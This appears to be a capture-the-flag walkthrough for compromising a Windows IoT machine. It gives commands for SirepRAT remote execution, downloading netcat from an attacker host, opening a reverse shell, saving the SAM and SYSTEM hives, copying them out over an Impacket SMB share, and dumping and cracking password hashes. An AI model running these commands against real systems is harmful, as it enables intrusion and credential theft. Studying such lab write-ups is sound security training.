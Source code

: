 ```
```
Curl Web Headers, SirepRAT, PowerShell, Copying Registry Hives, Transfer Backups, Impacket's smbserver, Dump Password Hashes, John the Ripper.

------------------

1. **Scan Port 8080 (HTTP) with WhatWeb**: WhatWeb is a tool for identifying web technologies. You can use it to gather information about the web application running on port 8080. This can be helpful for understanding the target system's technology stack.

   ```bash
   whatweb http://target_ip:8080
   ```

2. **Check Web Headers with Curl**: You can use the `curl` command to view HTTP headers from the web application running on port 8080. This can provide information about the server and other useful details.

   ```bash
   curl -I http://target_ip:8080
   ```

3. **Identify Vulnerabilities with SirepRAT**: SirepRAT is a tool for remote command execution on Windows machines. You can use it to exploit vulnerabilities. First, download Netcat for 64-bit Windows and upload it to the victim machine:

   ```bash
   python3 SirepRAT.py IP LaunchCommandWithOutput --return_output --cmd "powershell" --args "-c iwr -uri http://your_ip/nc64.exe -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe"
   ```

4. **Execute a Reverse Shell with Netcat**: Once Netcat is uploaded, you can use it to establish a reverse shell connection back to your attacking machine:

   ```bash
   python3 SirepRAT.py IP LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd your_ip 1234"
   ```

5. **Set up Netcat Listener on Your Machine**: On your attacking machine, set up a Netcat listener to receive the reverse shell connection:

   ```bash
   nc -nlvp 1234
   ```

6. **Privilege Escalation**: Once you have access to the victim machine, you can escalate privileges and search for important files. For example, to find the user.txt file:

   ```bash
   dir /r /s user.txt
   ```

7. **Decrypting Passwords with PowerShell**: If passwords are encrypted on the Windows machine, you can use PowerShell to decrypt them. First, launch PowerShell:

   ```bash
   powershell
   ```

   Then use the following command to decrypt passwords (assuming you have the appropriate file):

   ```powershell
   (Import-CliXml -Path user.txt).GetNetworkCredential().password
   ```

8. **Copying System and SAM Registry Hives**: To dump the System and SAM registry hives, use these commands on the victim machine:

   ```bash
   reg save HKLM\system system.backup
   reg save HKLM\sam sam.backup
   ```

9. **Transfer Backups to Attacker Machine**: Use Impacket's smbserver to create a shared folder on your machine and then transfer the backups:

   ```bash
   impacket-smbserver smbFolder $(pwd) -smb2support -username kvzlx -password kvzlx1234
   ```

   On the victim machine:

   ```bash
   net use r: \\your_ip\smbFolder /user:kvzlx kvzlx1234
   copy sam.backup r:\sam
   copy system.backup r:\system
   ```

10. **Dump Password Hashes**: Use Impacket's secretsdump to extract password hashes:

    ```bash
    secretsdump -sam sam -system system LOCAL
    ```

11. **Crack Password Hashes with John**: If necessary, you can crack the password hashes using John the Ripper:

    ```bash
    john --wordlist=rockyou.txt hashes --format=NT
    ```

12. **Use Obtained Credentials**: Use the cracked password or obtained credentials to log in to the web application or other services, potentially gaining administrator access.

13. **Retrieve Root Flag**: Continue with the process, such as checking files like `iot-admin.xml` and using PowerShell to extract credentials. Once you have the credentials for the administrator, you can repeat the reverse shell process and retrieve the root flag.
